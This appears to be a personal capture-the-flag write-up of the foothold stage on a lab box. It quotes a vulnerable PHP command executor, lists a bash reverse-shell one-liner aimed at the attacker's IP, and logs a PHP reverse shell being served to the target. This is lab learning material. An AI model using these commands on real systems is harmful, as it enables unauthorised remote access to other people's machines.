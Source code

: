### Foothold


- Using [[How to check if ping on target system is running by pinging urself]] again to see if ping command is working
it is not

- But we are able to run commands on `http://10.10.182.144/whatever/index.php` and also get the output
`uid=33(www-data) gid=33(www-data) groups=33(www-data)` 

- However not all commands are being run here

when running `cat index.php` we get 

```
prepare("SELECT run from runcheck;");
$result->execute();
$result = $result->fetch();
$run = $result['run'];
echo "Command Executer Mode :". $run;
echo "<br>";
if ($_SERVER['REQUEST_METHOD'] == "POST") {
        if ($run == 1) {
                system($_POST['cmd']);
        } 
        else {
                $cmd = $_POST['cmd'];
                echo htmlspecialchars($cmd);
        }
}
```

`ping -n 5 10.17.24.189` and `bash -i >& /dev/tcp/10.17.24.189/9999 0>&1` does not work

Here maybe we have to change the request method - tried this and got no response

- `cat config.php` does not give anything useful


- `ls -al /home` gives this
```
drwxr-xr-x  4 root  root  4096 Feb 28  2021 .
drwxr-xr-x 25 root  root  4096 Mar 25  2021 ..
drwxr-x---  4 adam  adam  4096 Feb 28  2021 adam
drwxr-x---  2 mason mason 4096 Feb 28  2021 mason
```


- We are able to download the `php reverse shell` using `
`wget`

```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.61.254 - - [03/Sep/2023 18:11:43] "GET /php-reverse-shell.php HTTP/1.1" 200 
```
